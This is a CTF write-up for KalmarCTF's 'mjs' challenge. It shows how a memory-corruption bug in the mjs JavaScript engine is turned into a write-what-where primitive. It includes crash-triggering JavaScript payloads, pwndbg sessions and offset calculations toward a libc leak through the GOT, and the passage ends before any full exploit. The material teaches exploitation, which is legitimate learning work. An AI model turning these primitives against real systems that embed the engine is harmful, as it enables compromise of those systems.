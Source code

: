 ```yaml
---
title: "Hacking Toddler Js Engine"
date: 2023-03-15T18:24:55+07:00
draft: true
iscjklanguage: false
isarchived: false
categories: ["CTF"]
images: ["https://images.unsplash.com/photo-1501139083538-0139583c060f?w=1920&q=50"]
aliases: []
description: "Noob approach to hacking javascript engine"
---
```



## Introduction

This article is a writeup of a challenge from [KalmarCTF](https://kalmarc.tf/) called mjs. The challenge is to hack a javascript engine and get the flag. The challenge is easy, but I think it's still a good challenge to learn about getting started with javascript engine.


## What is MJS ?

MJS is a javascript engine written in C. The source code is available [here](https://github.com/cesanta/mjs). The engine is a very simple and had few builtin function. for example :
<dl>
  <dt><tt>print(arg1, arg2, ...);</tt></dt>
  <dd>Print arguments to stdout, separated by space.</dd>

  <dt><tt>load('file.js', obj);</tt></dt>
  <dd>Execute file <tt>file.js</tt>. <tt>obj</tt> paramenter is
  optional. <tt>obj</tt> is a global namespace object.
  If not specified, a current global namespace is passed to the script,
  which allows <tt>file.js</tt> to modify the current namespace.</dd>

  <dt><tt>die(message);</tt></dt>
  <dd>Exit interpreter with the given error message</dd>

  <dt><tt>let value = JSON.parse(str);</tt></dt>
  <dd>Parse JSON string and return parsed value.</dd>

  <dt><tt>let str = JSON.stringify(value);</tt></dt>
  <dd>Get string representation of the mJS value.</dd>

  <dt><tt>let proto = {foo: 1}; let o = Object.create(proto);</tt></dt>
  <dd>Create an object with the provided prototype.</dd>

  <dt><tt>'some_string'.slice(start, end);</tt></dt>
  <dd>Return a substring between two indices. Example:
      <tt>'abcdef'.slice(1,3) === 'bc';</tt></dd>

  <dt><tt>'abc'.at(0);</tt></dt>
  <dd>Return numeric byte value at given string index. Example:
      <tt>'abc'.at(0) === 0x61;</tt></dd>

  <dt><tt>'abc'.indexOf(substr[, fromIndex]);</tt></dt>
  <dd>Return index of first occurence of substr within the string or `-1`
  if not found.
      <tt>'abc'.indexOf('bc') === 1;</tt></dd>

  <dt><tt>chr(n);</tt></dt>
  <dd>Return 1-byte string whose ASCII code is the integer `n`. If `n` is
    not numeric or outside of `0-255` range, `null` is returned. Example:
      <tt>chr(0x61) === 'a';</tt></dd>

  <dt><tt>let a = [1,2,3,4,5]; a.splice(start, deleteCount, ...);</tt></dt>
  <dd>Change the contents of an array by removing existing elements and/or
    adding new elements. Example:
  <tt>let a = [1,2,3,4,5]; a.splice(1, 2, 100, 101, 102); a === [1,100,101,102,4,5];</tt></dd>
<s>
  <dt><tt>let s = mkstr(ptrVar, length);</tt></dt>
  <dd>Create a string backed by a C memory chunk. A string <tt>s</tt> starts
  at memory location <tt>ptrVar</tt>, and is <tt>length</tt> bytes long.</dd>

  <dt><tt>let s = mkstr(ptrVar, offset, length, copy = false);</tt></dt>
  <dd>Like `mkstr(ptrVar, length)`, but string <tt>s</tt> starts
  at memory location <tt>ptrVar + offset</tt>, and the caller can specify
  whether the string needs to be copied to the internal mjs buffer. By default
  it's not copied.</dd>

  <dt><tt>let f = ffi('int foo(int)');</tt></dt>
  <dd>Import C function into mJS. See next section.</dd>

  <dt><tt>gc(full);</tt></dt>
  <dd>Perform garbage collection. If `full` is `true`, reclaim RAM to OS.</s></dd>
</dl>


## Challenge 
The challenge is to get Remote Code Execution (RCE) by giving malicious JS to engine. But there's a problem, the CTF Author apply patch to disable some builtin function. The builtin function that disabled are :
- `ffi()`
- `mkstr()`
- `s2o()`

These function is used to call C function from JS. So we can't use it to get RCE. 

~~~patch
diff --git a/Makefile b/Makefile
index d265d7e..d495e84 100644
--- a/Makefile
+++ b/Makefile
@@ -5,6 +5,7 @@ BUILD_DIR = build
 RD ?= docker run -v $(CURDIR):$(CURDIR) --user=$(shell id -u):$(shell id -g) -w $(CURDIR)
 DOCKER_GCC ?= $(RD) mgos/gcc
 DOCKER_CLANG ?= $(RD) mgos/clang
+CC = clang
 
 include $(SRCPATH)/mjs_sources.mk
 
@@ -81,7 +82,7 @@ CFLAGS += $(COMMON_CFLAGS)
 # NOTE: we compile straight from sources, not from the single amalgamated file,
 # in order to make sure that all sources include the right headers
 $(PROG): $(TOP_MJS_SOURCES) $(TOP_COMMON_SOURCES) $(TOP_HEADERS) $(BUILD_DIR)
-	$(DOCKER_CLANG) clang $(CFLAGS) $(TOP_MJS_SOURCES) $(TOP_COMMON_SOURCES) -o $(PROG)
+	$(CC) $(CFLAGS) $(TOP_MJS_SOURCES) $(TOP_COMMON_SOURCES) -o $(PROG)
 
 $(BUILD_DIR):
 	mkdir -p $@
diff --git a/src/mjs_builtin.c b/src/mjs_builtin.c
index 6f51e08..36c2b43 100644
--- a/src/mjs_builtin.c
+++ b/src/mjs_builtin.c
@@ -137,12 +137,12 @@ void mjs_init_builtin(struct mjs *mjs, mjs_val_t obj) {
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_load));
   mjs_set(mjs, obj, "print", ~0,
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_print));
-  mjs_set(mjs, obj, "ffi", ~0,
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_call));
-  mjs_set(mjs, obj, "ffi_cb_free", ~0,
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_cb_free));
-  mjs_set(mjs, obj, "mkstr", ~0,
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_mkstr));
+  /* mjs_set(mjs, obj, "ffi", ~0, */
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_call)); */
+  /* mjs_set(mjs, obj, "ffi_cb_free", ~0, */
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_ffi_cb_free)); */
+  /* mjs_set(mjs, obj, "mkstr", ~0, */
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_mkstr)); */
   mjs_set(mjs, obj, "getMJS", ~0,
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_get_mjs));
   mjs_set(mjs, obj, "die", ~0,
@@ -151,8 +151,8 @@ void mjs_init_builtin(struct mjs *mjs, mjs_val_t obj) {
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_do_gc));
   mjs_set(mjs, obj, "chr", ~0,
           mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_chr));
-  mjs_set(mjs, obj, "s2o", ~0,
-          mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_s2o));
+  /* mjs_set(mjs, obj, "s2o", ~0, */
+  /*         mjs_mk_foreign_func(mjs, (mjs_func_ptr_t) mjs_s2o)); */
 
   /*
    * Populate JSON.parse() and JSON.stringify()
diff --git a/src/mjs_exec.c b/src/mjs_exec.c
index bd48fea..24c2c7c 100644
--- a/src/mjs_exec.c
+++ b/src/mjs_exec.c
@@ -835,7 +835,7 @@ MJS_PRIVATE mjs_err_t mjs_execute(struct mjs *mjs, size_t off, mjs_val_t *res) {
 
           *func = MJS_UNDEFINED;  // Return value
           // LOG(LL_VERBOSE_DEBUG, ("CALLING  %d", i + 1));
-        } else if (mjs_is_string(*func) || mjs_is_ffi_sig(*func)) {
+        } else if (mjs_is_ffi_sig(*func)) {
           /* Call ffi-ed function */
 
           call_stack_push_frame(mjs, bp.start_idx + i, retval_stack_idx);
~~~

## Write What Where

By doing simple issue search, we can find a [Buffer Overflow Issue](https://github.com/cesanta/mjs/issues/191) in the repository. 

~~~javascript
(JSON.stringify([1, 2, 3]))((JSON.parse - 10900)(JSON.stringify([1, 2, 3])));
~~~
If we look into the payload, it substracting 10900 from the JSON.parse function. It doesnt make sense to me, but it is a valid javascript code. By running the code, it will trigger segmentation fault and it verified that the bug its still exist. 
~~~bash
➜  build git:(master) ✗ ./mjs_compiled writeup.js 
[1]    19023 segmentation fault (core dumped)  ./mjs_compiled writeup.js
~~~

I tried to simplified the payload and the simple version to trigger bug is 
~~~javascript
JSON.parse[-1] = 1;
~~~
![SIGSEGV](https://user-images.githubusercontent.com/11147011/225323734-a0c9d786-8d78-4531-ba0b-adce069e49a1.png)

![](https://user-images.githubusercontent.com/11147011/225324781-1add18e5-d31c-4767-ae5a-e68a667038dc.png)

If we look at the debugger, it tries to copy the 1 value into address JSON.parse[-1]. 

![](https://user-images.githubusercontent.com/11147011/225325662-40381717-2616-4f39-b3f1-05c2111aaca3.png)

What we got here is a write-what-where primitive. We can write any value to any address.

## Information Leak
Leaking address is also abusing JSON.parse function. 
![](https://user-images.githubusercontent.com/11147011/225329032-804508fb-f520-4f80-8d70-213267235829.png)
As you can see it leaking some number. If we want to leak specific address, we need to calculate the base offset first. 
![](https://user-images.githubusercontent.com/11147011/225330622-7f800715-9922-4616-a72b-42cb2f0c068a.png)

From the screenshot above, we knew that the base address is started at 0x555555554000. We can calculate the offset by using the following formula. 
~~~bash
pwndbg> x (ptr + ikey) - 0x555555554000
0xfe3f:	Cannot access memory at address 0xfe3f
~~~
We got the base binary address at -0xfe3f. Lets verify by using the following code.
~~~javascript
JSON.parse[-0xfe3f] = 1;
~~~
~~~bash
pwndbg> x ptr+ikey
0x555555554001:	0x02464c45
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x555555554000     0x555555556000 r--p     2000 0      /home/syahrul/CTF/KalmarCTF/pwn/browser/build/mjs_compiled
~~~
Its seem we need to add 1 byte to the offset for the correct address.
~~~javascript
JSON.parse[-0xfe40] = 1;
~~~
~~~bash
pwndbg> x ptr+ikey
0x555555554000:	0x464c457f
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x555555554000     0x555555556000 r--p     2000 0      /home/syahrul/CTF/KalmarCTF/pwn/browser/build/mjs_compiled
~~~

Now we need to find pointer that point to libc address. We can easily find it by using Global Offset Table (GOT) address. 
![](https://user-images.githubusercontent.com/11147011/225334979-701b23ba-5446-4b90-ac54-04759d39dc41.png)

If you look at the line of got, the address 0x555555580018 which is free@GLIBC_2.2.5 is pointing to 0x7ffff7ca5460 inside libc. 
~~~bash
pwndbg> x 0x555555580018 - 0x555555554000
0x2c018:	Cannot access memory at address 0x2c018
pwndbg> 
~~~
0x2c018 is offset from the base address. 



